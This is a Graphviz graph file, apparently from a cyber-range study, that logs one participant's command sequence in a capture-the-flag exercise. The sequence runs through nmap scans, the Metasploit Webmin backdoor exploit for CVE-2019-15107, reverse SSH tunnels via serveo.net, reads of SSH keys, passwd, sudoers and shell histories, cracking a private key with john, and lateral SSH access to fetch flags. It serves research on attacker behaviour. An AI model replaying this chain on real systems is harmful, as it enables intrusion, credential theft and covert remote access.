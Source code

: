// creating graph for user: 77
digraph {
	node [shape=box]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	15 [label="nmap -p 10000 -A 172.18.1.5 V0 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	22 [label="show options V5 "]
	24 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	25 [label="set RHOSTS 172.18.1.5 V6 "]
	26 [label="run V8 "]
	27 [label="set LPORT 6666 A6 "]
	28 [label="run V8 "]
	29 [label="set LHOST 0.0.0.0 V6 "]
	30 [label="run V8 "]
	34 [label="show options V5 "]
	35 [label="set LHOST 192.168.130.188 V6 "]
	36 [label="set SRVHOST 192.168.130.188 A6 "]
	37 [label="run V8 "]
	38 [label="msfconsole V2 "]
	39 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	40 [label="show options V5 "]
	41 [label="set RHOSTS 172.18.1.5 V6 "]
	42 [label="run V8 "]
	44 [label="set LHOST 10.1.135.83 V6 "]
	45 [label="run V8 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	61 [label="ls A10 "]
	67 [label="ps aux  A9 A11 A12 A17 "]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	82 [label="nmap A0 A1 "]
	84 [label="ls A10 "]
	87 [label="apt install nmap A0 A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	115 [label="ls -hlA A10 "]
	117 [label="ls -hlA A10 "]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A0 A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history V11 "]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ A16 "]
	140 [label="ls -hlA .ssh A10 A16 "]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history V11 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	154 [label="cat root/.bash_history V11 "]
	170 [label="cat syslog A1 A9 A11 A12 A17 "]
	172 [label="zcat syslog.1 A1 A9 A11 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A11 A12 A17 "]
	177 [label="ll ssh A16 "]
	179 [label="cat sudoers A1 A9 A11 A12 A17 "]
	183 [label="alias ll='ls -hlA' A10 "]
	188 [label="cd .ssh A16 "]
	190 [label="cat id_rsa M12 "]
	192 [label="alias ll='ls -hlA' A10 "]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 A16 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py V8 "]
	200 [label="chmod +x ssh2john.py A14 A15 A16 "]
	201 [label="./ssh2john.py id_rsa A14 A16 "]
	202 [label="./ssh2john.py id_rsa > x A14 A16 "]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	209 [label="cat /home/eve/.bash_history V11 "]
	210 [label="ssh eve@10.1.17.4 V16 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	218 [label="cat /home/eve/.bash_history V11 "]
	219 [label="ssh eve@10.1.17.4 V16 "]
	220 [label="alias ll='ls -hlA' A10 "]
	224 [label="cat flag.txt M17 "]
	231 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	235 [label="cat top-secret/flag.txt V17 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	245 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	246 [label="cat /etc/cron* A1 A9 A11 A12 A17 "]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	254 [label="cat /etc/api/sources.list A1 A9 A11 A12 A17 "]
	255 [label="cat /etc/apt/sources.list A1 A9 A11 A12 A17 "]
	0 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 154 [constraint=false]
	154 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 177 [constraint=false]
	177 -> 179 [constraint=false]
	179 -> 183 [constraint=false]
	183 -> 188 [constraint=false]
	188 -> 190 [constraint=false]
	190 -> 192 [constraint=false]
	192 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 205 [constraint=false]
	205 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 224 [constraint=false]
	224 -> 231 [constraint=false]
	231 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 251 [constraint=false]
	251 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	rankdir=LR
}
